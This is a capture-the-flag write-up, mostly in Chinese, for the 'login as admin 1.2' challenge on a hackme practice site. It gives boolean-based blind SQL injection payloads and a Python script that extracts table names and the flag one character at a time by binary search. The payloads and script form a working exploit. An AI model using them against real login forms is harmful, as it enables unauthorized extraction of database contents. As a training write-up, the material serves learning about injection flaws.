 ## login as admin 1.2
- 這題要不斷用 bolean base sqli 去 leak data。
- 可以先找長度。
`\'/**/or/**/(length((SELECT/**/table_name/**/FROM/**/information_schema.tables/**/where/**/table_schema=database()/**/limit/**/0,1)))>1/**/limit/**/1,1/**/#`
- 再接著 leak 出字串。
`\'/**/or/**/(ascii(substr((SELECT/**/table_name/**/FROM/**/information_schema.tables/**/where/**/table_schema=database()/**/limit/**/0,1),1,1)))>10/**/limit/**/1,1/**/#`
- 當然不可能一個字一個字慢慢 leak，寫一個 binary search 的 python 腳本。(截了張 leak 出的 table_name)
    ![](https://i.imgur.com/oX5xzbP.png)
```python=
import requests

url = "https://ctf.hackme.quest/login1/"
password = "test"

def boolean_base_binary_search(index, low, upper):
    mid = 0
    while low <= upper:
        mid = (low + upper)//2
        # condition = f'(ascii(substr((SELECT/**/table_name/**/FROM/**/information_schema.tables/**/where/**/table_schema=database()/**/limit/**/0,1),{index},1)))>{mid}'
        # condition = f'(ascii(substr((SELECT/**/column_name/**/FROM/**/information_schema.columns/**/WHERE/**/table_schema=database()/**/AND/**/table_name=0x3062646235346339383132336635353236636361656439383264323030366139/**/limit/**/0,1),{index},1)))>{mid}'
        ######## length ########
        # condition = f'(length((SELECT/**/4a391a11cfa831ca740cf8d00782f3a6/**/from/**/0bdb54c98123f5526ccaed982d2006a9/**/limit/**/0,1)))>{mid}'
        ######## length ########
        condition = f'(ascii(substr((SELECT/**/4a391a11cfa831ca740cf8d00782f3a6/**/from/**/0bdb54c98123f5526ccaed982d2006a9/**/limit/**/0,1),{index},1)))>{mid}'
        sql = f"\\'/**/or/**/{condition}/**/limit/**/1,1/**/#"
        my_data = {'name': sql, 'password': password}
        r = requests.post(url, data = my_data)
        if "FLAG" in r.text:
            low = mid + 1
        else:
            upper =  mid - 1
    
    condition = f'(ascii(substr((SELECT/**/4a391a11cfa831ca740cf8d00782f3a6/**/from/**/0bdb54c98123f5526ccaed982d2006a9/**/limit/**/0,1),{index},1)))>{mid}'
    sql = f"\\'/**/or/**/{condition}/**/limit/**/1,1/**/#"
    my_data = {'name': sql, 'password': password}
    r = requests.post(url, data = my_data)
    if "FLAG" in r.text:
        mid += 1
    print("target" + str(index) + ":" + chr(mid)+ f"({mid})")
    return chr(mid)

def find_flag():
    flag = ""
    for i in range(1,67):
         flag += boolean_base_binary_search(i, 0, 130)
    return flag


print(f'flag:{find_flag()}')
```
- 找 column 時原本以為單引號跟雙引號都被擋掉，所以把 database_name 轉 16 進位輸入。
    ![](https://i.imgur.com/4aHHHDF.png)